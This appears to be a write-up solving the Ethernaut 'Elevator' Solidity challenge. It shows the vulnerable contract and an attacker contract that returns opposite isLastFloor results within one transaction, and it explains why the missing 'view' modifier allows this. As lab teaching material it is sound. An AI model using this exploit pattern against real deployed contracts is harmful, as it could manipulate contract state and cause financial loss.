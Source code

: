 # [11. Elevator](https://ethernaut.openzeppelin.com/level/0xaB4F3F2644060b2D960b0d88F0a42d1D27484687)

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

interface Building {
  function isLastFloor(uint) external returns (bool);
}

contract Elevator {
  bool public top;
  uint public floor;

  function goTo(uint _floor) public {
    Building building = Building(msg.sender);

    if (! building.isLastFloor(_floor)) {
      floor = _floor;
      top = building.isLastFloor(floor);
    }
  }
}
```

In this level, we will write the `Builder` contract which the elevator interacts with. However, in the same transaction we will return opposite boolean results for `isLastFloor` function.

```solidity
// SPDX-License-Identifier: GPL-3.0
pragma solidity ^0.8.0;

interface Elevator {
  function goTo(uint _floor) external;    
}

contract Building {
  bool toggleMe = true;
  
  function isLastFloor(uint) external returns (bool) {
    toggleMe = !toggleMe;
    return toggleMe;
  }

  function callElevator(address _elevator) public {
    Elevator(_elevator).goTo(1);
  }

}
```

The problem here is that Elevator did not specify `isLastFloor` to be a `view` function, which would prevent us from modifying the state like this. Another attack approach would be to return different results depending on the input data _without_ modifying state, such as via `gasLeft()`.
